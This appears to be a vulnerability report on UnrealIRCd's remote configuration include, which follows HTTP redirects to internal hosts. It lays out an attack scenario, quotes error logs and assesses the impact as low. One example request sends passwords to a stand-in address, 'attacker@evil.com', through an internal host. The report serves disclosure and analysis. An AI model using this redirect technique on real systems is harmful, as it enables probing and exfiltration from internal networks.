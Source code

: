 ````markdown
```
It does not check against an evil redirect (eg: internal network).

# Attack scenario

Administrator sets an attacker-controlled remote config file include in server config and restart the service. This could be done two ways:
* through social engineering: the attacker convinces the admin to use his URL in his ircd configAttack
* through compromission of a legitimate remote server already used for configuration

The attacker's config server makes a 302 redirect to make the unrealircd perform a GET to another URL, unwanted by the admin.

## The attack provides no information leak

This can't allow any information leak, because the server will likely fail to validate the configuration, and fail to run with an error like:
```
[info] Loading IRCd configuration..
[error] /home/user/unrealircd/conf/unrealircd.conf:47: Extra data detected. Perhaps missing a ';' or one too many?
[error] Could not load configuration file: /home/user/unrealircd/conf/unrealircd.conf
```

## The attack allows a single GET request

The only thing that could be achieved by the attacker is to perform a (blind) GET request that would have an impact on security. Attacker would be able to pass an auth token or any parameters to the GET request. Example:
```
GET /sendallpasswords.php?to:attacker@evil.com HTTP/1.1
Host: 10.0.0.5
User-Agent: UnrealIRCd 6.2.0-beta3
Accept: */*
Accept-Encoding: identity
Connection: close
```

# Impact

Impact seems very low (need admin action). Config file has a high level of trust (it already contains sensitive data like passwords hashes).

Also, if the GET request does not provide a valid unreal configuration (which is highly probable!) the service start will immediately fail.

The aforementionned scenario is pretty unlikely (compromission with a single blind GET): the fact that the attacker has knowledge of such a trivially vulnerable internal service, without already having the mean to exploit it, seems very unlikely.

This bug/feature, combined with another vulnerability on configuration files parsing (for example), would allow to take control of the unrealirc daemon execution flow and would have more impact.
````
